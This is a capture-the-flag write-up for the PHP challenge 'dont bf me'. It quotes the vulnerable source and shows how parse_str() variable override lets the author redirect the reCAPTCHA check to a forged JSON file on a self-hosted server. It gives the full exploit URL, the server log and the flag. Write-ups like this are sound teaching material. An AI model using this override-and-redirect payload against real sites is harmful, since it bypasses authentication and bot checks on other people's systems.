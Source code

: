 ## dont bf me - 36 Solves

> Shou uses Recaptcha for his site to make it "safer". 

The point of this challenge is to abuse how ``parse_str`` works.

We are given some php files that show the code running behind the challenge. The two notable files are ``constant.php`` and ``login.php``.

Here is ``constant.php``:

```
<?php
// recaptcha
$PUB_KEY = getenv("PUB_KEY");
$PRIV_KEY = getenv("PRIV_KEY");
$RECAPTCHA_URL = "https://www.google.com/recaptcha/api/siteverify?secret=$PRIV_KEY&response=";

// password
$CORRECT_PASSWORD = getenv("PASSWORD");

// flag
$FLAG = getenv("FLAG");

// bug does not exist if we can't see it
error_reporting(0);
```

We can see that there are some variables set. Here is the login form:

```
<?php
include "constant.php";

parse_str($_SERVER["QUERY_STRING"]);

// check args
if (!isset($password) || !isset($_GET['g-recaptcha-response'])) {
    echo "Missing args :(";
    die();
}

// check recaptcha
$recaptcha_resp = json_decode(file_get_contents($RECAPTCHA_URL.$_GET['g-recaptcha-response']), true);
if(!$recaptcha_resp || !$recaptcha_resp["success"]) {
    echo "Bad recaptcha :(";
    die();
}

if ($recaptcha_resp["score"] < 0.8) {
    echo "Stop! Big hacker";
    die();
}

// check password
if($password == $CORRECT_PASSWORD) {
    echo $FLAG;
} else {
    echo "Wrong password :(";
}
```

The vulnerability is in this line: ``parse_str($_SERVER["QUERY_STRING"]);``. 

You can read up on the vulnerability [here](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#parse_str-variable-override), but essentially we can use the character `&` to reference the variables already in place, and take those values and set them equal to the get parameter values. Additionally, we can re-declare and assign other already-declared variables. Looking at the code, we need to specify a few things in order to bypass all the checks, given that we can access to all the set variables.

First, looking at this line:

```
!isset($password) || !isset($_GET['g-recaptcha-response']
```

There needs to be two url parameters set, ``password`` and ``g-recaptcha-response``. 

Next, let's look at the next two checks.

```
$recaptcha_resp = json_decode(file_get_contents($RECAPTCHA_URL.$_GET['g-recaptcha-response']), true);
if(!$recaptcha_resp || !$recaptcha_resp["success"]) {
    echo "Bad recaptcha :(";
    die();
}

if ($recaptcha_resp["score"] < 0.8) {
    echo "Stop! Big hacker";
    die();
}
```

The first thing to note is this line: ``$RECAPTCHA_URL.$_GET['g-recaptcha-response'])``. This implies that the get param ``g-recaptcha-response`` should be attatched to the recaptch

Ok, the statement ``!$recaptcha_resp`` ensures that the response exists, and ``!$recaptcha_resp["success"]`` ensures that there is a value in the json file that is decoded named success, and that it has a value of true.

The second check looks to see if there is a score entry in the json with a value greater than 0.8. I can create the following payload ``payload.json``. I will host the file on my VPS so that the challenge servers can access it.

```
{"score":1.0, "success":true}
```

In order to make my file accessible, I create an HTTP Server using python. I do this so that you can go to the URL of my VPS and access the json file.

```
root@natem135:~/public# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...                           -
```

Here is my finished payload.

```
http://bfm.ny.ctf.so/login.php?password=&CORRECT_PASSWORD&RECAPTCHA_URL=http://natem135.xyz:8000/payload.json?&g-recaptcha-response=dummy
```

I enter the URL in my browser and I can see on my VPS that a request was recieved from the challenge server:

```
root@natem135:~/public# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...                           -
104.236.23.113 - - [20/Dec/2020 01:24:14] "GET /payload.json?dummy HTTP/1.0" 200
```

And I have the flag!

```
we{f3243131-45e1-4d82-9dfb-586760275ac6@0bvious1y_n0t_a_brutef0rc3_cha11}
```